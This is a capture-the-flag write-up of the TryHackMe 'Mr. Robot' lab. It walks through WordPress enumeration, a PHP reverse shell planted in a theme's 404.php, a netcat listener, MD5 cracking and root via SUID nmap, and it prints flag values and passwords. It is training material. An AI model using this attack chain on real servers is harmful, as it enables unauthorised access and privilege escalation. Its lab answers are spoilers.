

## Summary

**Mr. Robot** is the fifteenth and final machine of the _Road to eJPTv2_ series, inspired by the TV show of the same name. A three-flag machine that chains deep web enumeration, WordPress exploitation through the theme editor, MD5 hash cracking to pivot between users, and privilege escalation via a SUID `nmap` binary on an old version.

A worthy finale to close the path — real techniques from start to finish.

| Attribute      | Value                                                     |
| -------------- | --------------------------------------------------------- |
| **Platform**   | TryHackMe                                                 |
| **Difficulty** | Medium                                                    |
| **OS**         | Linux (Ubuntu)                                            |
| **Room**       | [Mr. Robot](https://tryhackme.com/room/mrrobot)           |
| **Skills**     | WordPress Enum, Theme Editor RCE, MD5 Cracking, SUID nmap |

### Tools Used

- `nmap` — port scanning and version detection
- `gobuster` — web directory fuzzing
- `whatweb` — web fingerprinting
- `wpscan` — WordPress enumeration
- `john` — MD5 hash cracking
- `netcat` — reverse shell listener
- `nmap --interactive` — escalation via SUID

### Solution Overview

1. **Recon:** nmap detects SSH, HTTP and HTTPS. It's a WordPress site.
2. **robots.txt:** Reveals the **first flag** and a `fsocity.dic` wordlist.
3. **license.txt:** Contains base64-encoded credentials: `elliot:ER28-0652`.
4. **WordPress:** We log in as `elliot` (admin) to the dashboard.
5. **Reverse shell:** We inject a PHP reverse shell into the active theme's `404.php` template.
6. **Post-exploitation:** We find `password.raw-md5` with `robot`'s hash. John cracks it: `abcdefghijklmnopqrstuvwxyz`.
7. **Second flag:** We switch to `robot` and read `key-2-of-3.txt`.
8. **PrivEsc:** `nmap` has SUID bit on an old version. `nmap --interactive` + `!sh` gives a root shell.
9. **Third flag:** `/root/key-3-of-3.txt`.

---

## Reconnaissance

### Ping

We verify connectivity and identify the OS by TTL:

```bash
ping -c 1 10.201.27.5
```

```
64 bytes from 10.201.27.5: icmp_seq=1 ttl=60 time=144 ms
```

TTL 60 → Linux (original value 64, decremented through network hops).

### Nmap — Port Scan

```bash
nmap 10.201.27.5 -n -Pn -p- -sS --min-rate=5000 -oG allTCPports
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Nmap — Versions and Scripts

```bash
nmap 10.201.27.5 -n -Pn -p22,80,443 -sVC -sS --min-rate=5000 -oN mrRobotscan.txt
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
```

Apache on 80 and 443 without an explicit version — indicates WordPress with a custom configuration.

### robots.txt — First Flag

We access `http://10.201.27.5/robots.txt`:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Two direct findings:

- `key-1-of-3.txt` → **first flag**
- `fsocity.dic` → custom wordlist for future attacks

> **Key 1:** `073403c8a58a1f80d943455fb30724b9`

### Gobuster + WPScan

```bash
gobuster dir -u http://10.201.27.5 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt,xml
```

Gobuster confirms the WordPress installation: `/wp-login.php`, `/wp-admin`, `/wp-content`.

```bash
wpscan --url http://10.201.27.5
```

WPScan identifies **WordPress 4.3.1** (insecure version from 2015) and the `twentyfifteen` theme. XML-RPC enabled.

### license.txt — Base64 Credentials

We access `http://10.201.27.5/license.txt` and find a base64 string:

```bash
echo -n "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

> **WordPress credentials:** `elliot:ER28-0652`

---

## Exploitation

### WordPress Access — Elliot's Dashboard

With the obtained credentials we access the admin panel:
`http://10.201.27.5/wp-admin/`



Admin access confirmed — user `Elliot Alderson`.

### Reverse Shell via Theme Editor

WordPress allows editing the active theme's PHP files directly from the admin panel. We navigate to the `Twenty Fifteen` theme editor and replace `404.php` content with a PHP reverse shell (PentestMonkey):

`Appearance → Theme Editor → 404.php`


We set up a netcat listener and trigger the shell by accessing a non-existent page:

```bash
nc -nlvp 4545
```

```
http://10.201.27.5/?p=404
```

```
connect to [10.13.93.83] from (UNKNOWN) [10.201.27.5] 60214
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

### Shell Stabilization

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
daemon@ip-10-201-27-5:/$ export TERM=xterm
daemon@ip-10-201-27-5:/$ export SHELL=bash
daemon@ip-10-201-27-5:/$ stty rows 41 cols 183
```

---

## Post-Exploitation

### robot's MD5 Hash

In `robot`'s home directory we find two files:

```bash
daemon@ip-10-201-27-5:/home/robot$ ls
key-2-of-3.txt    password.raw-md5
daemon@ip-10-201-27-5:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We can't read `key-2-of-3.txt` as `daemon` — we need to be `robot`.

### John the Ripper — MD5 Cracking

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 robot.hash
```

```
abcdefghijklmnopqrstuvwxyz (robot)
1g 0:00:00:00 DONE
```

> **robot's password:** `abcdefghijklmnopqrstuvwxyz`

### Pivot to robot — Second Flag

```bash
daemon@ip-10-201-27-5:/home/robot$ su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@ip-10-201-27-5:~$ cat key-2-of-3.txt
```

> **Key 2:** _(see in the room)_

---

## Privilege Escalation

### sudo -l

```bash
robot@ip-10-201-27-5:~$ sudo -l
Sorry, user robot may not run sudo on ip-10-201-27-5.
```

No sudo access. We look for SUID binaries:

### SUID — Old nmap

```bash
robot@ip-10-201-27-5:~$ find / -perm -4000 2>/dev/null
...
/usr/local/bin/nmap
...
```

`nmap` has the SUID bit. Old versions of nmap (pre-5.x) include an `--interactive` mode that allows executing system commands as the binary's owner — in this case, root.

```bash
robot@ip-10-201-27-5:~$ nmap --interactive
nmap> !sh
root@ip-10-201-27-5:~# whoami
root
```

### Third Flag

```bash
root@ip-10-201-27-5:/root# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

> **Key 3:** `04787ddef27c3dee1ee161b21670b4e4`

---

## Lessons Learned

- **robots.txt can contain flags and wordlists** — The file meant to exclude search engine bots revealed the first flag and a custom dictionary. Always the first file to check on any website.
- **"Informational" text files can contain credentials** — A base64-encoded string in `license.txt` is a careless way to leave credentials exposed. Always look for `.txt`, `.bak`, `readme` and similar files.
- **WordPress admin = RCE** — WordPress's theme editor allows modifying PHP files directly from the browser. Admin access to WordPress equals code execution on the server.
- **Plaintext MD5 hashes are trivially crackable** — `c3fcd3d76192e4007dfb496cca67e13b` was solved in seconds. MD5 is not a secure hash function for passwords.
- **SUID on interactive binaries is immediate privesc** — Any SUID binary that allows executing system commands (nmap, vim, python, perl, etc.) is a guaranteed escalation. Always check GTFOBins.

### For the eJPT

| Concept                        | eJPT Relevance                             |
| ------------------------------ | ------------------------------------------ |
| WordPress enumeration (wpscan) | Standard web technique in the syllabus     |
| RCE via Theme Editor           | Web application exploitation without CVE   |
| MD5 hash cracking              | Lateral movement between users             |
| SUID + GTFOBins (nmap)         | Kernel-exploit-free privesc — exam pattern |

**Approximate completion time:** 60-90 minutes.

---

## References

- [Mr. Robot — TryHackMe](https://tryhackme.com/room/mrrobot)
- [GTFOBins — nmap](https://gtfobins.github.io/gtfobins/nmap/)
- [WPScan](https://github.com/wpscanteam/wpscan)
- [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
